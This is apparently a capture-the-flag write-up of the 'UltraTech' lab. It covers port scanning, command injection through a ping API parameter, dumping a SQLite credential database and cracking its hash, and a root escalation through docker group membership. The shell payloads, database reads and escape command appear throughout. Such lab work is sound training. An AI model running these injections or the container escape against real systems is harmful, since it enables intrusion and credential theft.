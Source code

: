 # UltraTech

## It's Enumeration Time!

IP address at my time is `10.10.253.147`

Doing nmap scan for checking ports and services `nmap -p- -sC -sV 10.10.253.147`

![image](https://github.com/user-attachments/assets/d8d09f3a-f7c6-4bba-9986-eb8e3280322d)

### Answer the questions below

1. Which software is using the port 8081?

Node.js

2. Which other non-standard port is used?

31331

3. Which software using this port?

Apache

4. Which GNU/Linux distribution seems to be used?

Ubuntu

5. The software using the port 8081 is a REST api, how many of its routes are used by the web application?

Doing gobuster scan to check the directories that the port 8081 uses

`gobuster dir -u http://10.10.253.147:8081 -w /usr/share/wordlists/dirb/common.txt`

![image](https://github.com/user-attachments/assets/e55980a0-3ba0-4f09-9580-d8d968628b37)

There was only /auth but I assume that the /auth and /ping directories are used 

**Answer**: 2

## Let the fun begin

### Answer the questions below

1. There is a database lying around, what is its filename?

I go to the port 31331 there is an UltraTech page of Apache server

Doing the gobuster scan `gobuster dir -u http://10.10.253.147:31331 -w /usr/share/wordlists/dirb/common.txt`

![image](https://github.com/user-attachments/assets/70ee7b4e-4546-49f1-a04c-b9c480c119a5)

Going to the robots.txt gives me a sitemap

![image](https://github.com/user-attachments/assets/39a71004-5e31-4796-906a-6fbaf19a0113)

Checking these pages are just normal pages of UltraTech page

![image](https://github.com/user-attachments/assets/570c9bb3-f14f-46dd-a333-39a5edf739ac)

Checking the js page from the gobuster

![image](https://github.com/user-attachments/assets/47033d7c-8228-4613-a77e-6ac71518929c)

Checking the api.js, The `checkAPIStatus()` function in api.js appears to execute a `ping` command using a user-supplied IP address. If this input is not properly sanitized, it may lead to a command injection vulnerability, allowing an attacker to execute arbitrary system commands.

![image](https://github.com/user-attachments/assets/ec9ac329-c8ae-487f-acc4-da2887644203)

As the checkAPIStatus uses the IP Address and port 8081

Specifying the IP address by self  and checking the result

`http://10.10.253.147:8081/ping?ip=10.10.253.147`

![image](https://github.com/user-attachments/assets/7c3f49f5-26c3-4c30-a7c7-7d38a36748ad)

So it gives the result of the ping command meaning we can change the command

Using the ls command `http://10.10.253.147:8081/ping?ip='ls'`

![image](https://github.com/user-attachments/assets/dfcbf0ab-f768-4916-94af-68f7ff18fe27)

**Answer**: utech.db.sqlite

2. What is the first user's password hash?

Checking the contents of the database

`http://10.10.253.147:8081/ping?ip='cat utech.db.sqlite'`

![image](https://github.com/user-attachments/assets/a5688a6e-f5ca-451e-95a2-3941e25c45a5)

We get the hash of the r00t `f357a0c52799563c7c7b76c1e7543a32`

3. What is the password associated with this hash?

Cracking the hash in Crackstation website

**Answer**: n100906

## The root of all evil

SSH connecting to r00t `ssh r00t@10.10.253.147`

As we are r00t not root, so checking the permissions that the user r00t has, `sudo -l`

![image](https://github.com/user-attachments/assets/0ce2a2ea-3ab7-4b8b-9b28-161c6424717f)

By the `id` command, we see that we are in the docker group

Getting a root shell through the docker container `docker run -v /:/mnt --rm -it alpine chroot /mnt sh`

This command runs an Alpine Docker container, mounts (making one filesystem accessible inside another) the host's entire filesystem at `/mnt`, and then uses `chroot` to enter the host system's root environment, giving you a shell with host-level access.

![image](https://github.com/user-attachments/assets/23f7384d-1478-4ebc-8a33-2da0c4316a4e)

It is unable to get the image, so checking the existing images `docker ps -a`

![image](https://github.com/user-attachments/assets/aa38fc42-dcd0-46be-be4b-b5b473385a31)

We see that the image is in bash so replacing alpine to bash `docker run -v /:/mnt --rm -it bash chroot /mnt sh`

Then we get the root shell

![image](https://github.com/user-attachments/assets/922582f8-ec19-4a06-955b-fd1696536435)

Finding the id_rsa and checking the contents of id_rsa

`find / -name id_rsa 2>/dev/null`

![image](https://github.com/user-attachments/assets/7edbc7f7-e083-44a9-92af-4a75a7022bb7)

### Answer the questions below

What are the first 9 characters of the root user's private SSH key?

MIIEogIBA
